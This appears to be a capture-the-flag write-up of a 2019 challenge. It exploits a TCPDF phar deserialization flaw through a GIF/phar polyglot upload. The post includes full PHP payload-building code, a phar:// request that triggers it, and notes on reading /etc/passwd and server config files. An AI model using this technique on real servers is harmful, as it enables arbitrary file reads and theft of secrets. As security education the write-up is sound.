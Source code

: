 ## Introduction
This challenge gives us a web app and its [source code](https://github.com/everping/ctfs/blob/master/2019/chaos_communication_camp_2019/code-6c8fe52c26dec8c08d407bef5a52598d39dbf8b3.zip). Basically, the flow of that web app is:
- Users upload an image (png, jpg, jpeg, gif) and get the uploaded url
- Users post arbitrary html content to generate a pdf, the above image url can be included in the html content

## Analysis
Firstly, I uploaded a malformed image and got an error related to `imagemagick` in the process of creating pdf file by `tcpdf` library. This made me think of the idea of [imagetragick](https://imagetragick.com/). However, I threw this thought away when I saw functions that check the format of image files through their exif. That check prevent us to create a completed payload for the imagetragick attack.

```php
	if(function_exists('exif_imagetype')) { //Die exif_imagetype-Funktion erfordert die exif-Erweiterung auf dem Server
	 $allowed_types = array(IMAGETYPE_PNG, IMAGETYPE_JPEG, IMAGETYPE_GIF);
	 $detected_type = exif_imagetype($_FILES['file']['tmp_name']);
	 
	 
	 if(!in_array($detected_type, $allowed_types)) {
	 echo("<div class=\"container\">Only pictures allowed!</div>");
	 return;
	 }
	}
```


By googling about `tcpdf` library, I found a deserialization vulnerability in its [old version](https://packetstormsecurity.com/files/152200/TCPDF-6.2.19-Deserialization-Remote-Code-Execution.html). I reviewed our source code and compared it to that exploit and realized that we have ideal factors to create a perfect attack:
- tcpdf version 6.2.13 affected by that vulnerability
- A destruct method is defined in class PDFCreator (creator.php), this method included `file_get_contents()` function that can be trigged to read arbitrary files in the server.

## Exploit
The exploit code provided in [that paper](https://packetstormsecurity.com/files/152200/TCPDF-6.2.19-Deserialization-Remote-Code-Execution.html) is very straightforward, we can use it with a little bit of modifying. Below is what I did:
### 1. Create a valid image included the payload by using the code below
```php
<?php
namespace PDFStuff {
	
	# Define the vulnerable class
	class PDFCreator { public $tmpfile; }
	
	$phar_file = "poc.phar";
	$image_file = "poc.gif";

	# Initialize a Phar class
	$phar = new \Phar($phar_file);
	$phar->startBuffering();
	$phar->addFromString("test.txt", "test");
	
	# Set stub with gif prefix to bypass image checking
	$phar->setStub("GIF89a<?php __HALT_COMPILER();");

	$payload = new PDFCreator();
	
	# Create a payload to read flag file
	$payload->tmpfile = "/var/www/site/flag.php"; 
	$phar->setMetadata($payload);
	$phar->stopBuffering();
	rename($phar_file, $image_file);
}
```
If you want to try it, save it as a php file (payload.php) and turn off `phar.readonly` directive in `php.ini` then execute the command `php payload.php`. You will get file `poc.gif` and use it to do next steps.

I should explain a bit about some special points in my code:
- `GIF89a` is included as the prefix of output file because I want to bypass extension checking
- We have to pass to `$payload->tmpfile` the file we want to read. I tried with `flag.php` and got failed, but `/etc/passwd` worked so I think we need an absolute path. I read `/etc/apache2/sites-enabled/000-default.conf` first to get the full path of web source code and then luckily, I found `/var/www/site/flag.php`

### 2. Upload file and get flag
- From frontend, upload the created `poc.gif` and get the uploaded url
- Create a request like below to get pdf, the flag will be included in the response
```
POST /index.php HTTP/1.1
Host: hax.allesctf.net:3333

pdfcontent=<img src="phar://upload/df911f0151f9ef021d410b4be5060972.gif">
```
- Flag is `ALLES{phar_jpeg_polyglot_madness_such_w0w}`
